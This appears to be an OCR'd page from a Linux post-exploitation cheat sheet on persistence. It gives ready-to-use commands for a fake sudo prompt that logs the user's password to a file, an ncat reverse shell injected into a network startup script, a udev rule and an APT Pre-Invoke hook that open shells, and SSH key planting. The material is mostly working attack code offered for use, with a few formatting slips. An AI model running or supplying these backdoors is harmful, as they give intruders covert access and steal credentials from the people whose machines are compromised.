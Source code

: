 ```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt
/usr/bin/sudo $@
```


## Backdooring a startup service

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Backdooring a user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop
[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys
